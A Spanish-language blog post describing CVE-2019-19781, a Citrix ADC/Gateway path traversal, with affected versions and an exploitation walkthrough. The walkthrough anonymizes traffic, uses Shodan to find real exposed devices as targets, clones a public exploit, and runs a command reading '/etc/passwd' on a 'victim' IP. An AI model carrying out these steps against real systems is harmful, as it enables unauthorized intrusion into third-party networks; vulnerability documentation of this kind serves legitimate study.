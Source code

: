 ```yaml
---
layout: single
title: Explotación de CVE-2019-19781 - Vulnerabilidades
excerpt: "Una vulnerabilidad de cruce de directorio de Citrix Application Delivery Controller (ADC) y Gateway, que puede llevar a la ejecución remota de código sin credenciales."
date: 2020-12-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png
  teaser_home_page: true
  icon: /assets/images/citrix.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2019-19781
  - citrix
  - shodan
  - exploit-db
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png)

## Descripción:

La vulnerabilidad CVE-2019-19781 corresponde con un ataque de directorio transversal que permitía a un atacante ejecutar de forma remota código arbitrario en varias versiones de los productos ADC y Gateway de Citrix, así como en versiones antiguas de Citrix SD-WAN WANOP.

Está valorada como crítica, con una puntuación de 9.8 y fue descubierta por el investigador Mikhail Klyuchnikov, trabajador de la empresa Positive Technologies, quien reportó de manera ética la incidencia siguiendo el procedimiento de publicación responsable aplicable en estos casos.

•	Tipo: Limitación incorrecta de nombre de ruta a un directorio restringido (Path Traversal)

•	Gravedad: Alta

•	Fecha publicación: 27/12/2019

•	Última modificación: 08/01/2020

## Productos Afectados:

•	Citrix ADC y Citrix Gateway versión 13.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.1 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 11.1 todas las compilaciones compatibles

•	Citrix NetScaler ADC y NetScaler Gateway versión 10.5 todas las compilaciones compatibles
 
## Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197811.png)

Buscamos en la página Expoit Database, un exploit referente a la vulnerabilidad.

•	https://www.exploit-db.com/

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197812.png)

En la página de Shodan buscamos equipos con esta vulnerabilidad para ser vulnerados.

•	https://www.shodan.io/

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197813.png)

Se realiza la clonación del repositorio del exploit desde la página de GitHub.

•	Git clone https://github.com/projectzeroindia/CVE-2019-19781

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197814.png)

Ingresamos al directorio del Exploit descargado.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197815.png)

Dentro del directorio ejecutamos el siguiente comando.

•	python3 cve-2019-19781_scanner.py <IP DE LA VICTIMA> <PUERTO>

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197816.png)

Finalmente se evidencia que fue vulnerable y lista los directorios del dispositivo.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197817.png)

Probamos ejecutando otro comando.

•	bash CVE-2019-19781.sh <IP VICTIMA> 'cat /etc/passwd'

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197818.png)


## Referencias:

•	https://nvd.nist.gov/vuln/detail/CVE-2019-19781

•	https://support.citrix.com/article/CTX267679

•	https://www.exploit-db.com/exploits/47913

